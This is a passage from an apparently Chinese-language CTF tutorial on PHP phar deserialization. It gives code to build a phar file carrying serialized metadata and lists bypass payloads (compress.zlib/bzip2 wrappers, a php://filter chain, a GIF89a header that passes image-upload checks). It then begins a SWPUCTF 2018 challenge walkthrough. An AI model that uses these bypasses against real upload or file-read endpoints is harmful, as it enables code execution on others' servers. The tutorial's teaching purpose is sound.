 ```php
<?php
    class TestObject {
    }
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $o -> data='hu3sky';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```



### 绕过方式

当环境限制了phar不能出现在前面的字符里。可以使用`compress.bzip2://`和`compress.zlib://`等绕过

```
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
```

也可以利用其它协议

```
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

GIF格式验证可以通过在文件头部添加GIF89a绕过

```
1、$phar->setStub(“GIF89a”."<?php __HALT_COMPILER(); ?>"); //设置stub
2、生成一个phar.phar，修改后缀名为phar.gif
```

##  例题

###  SWPUCTF 2018]SimplePHP

打开网页，发现有上传文件的地方和查看文件的地方。

验证，查看文件的URL

```
http://52194e11-15f5-46ef-9ddf-625a7d9d5415.node4.buuoj.cn:81/file.php?file=
```

file参数可以查看代码

index.php

```php
<?php
header("content-type:text/html;charset=utf-8");
include 'base.php';
?>
```
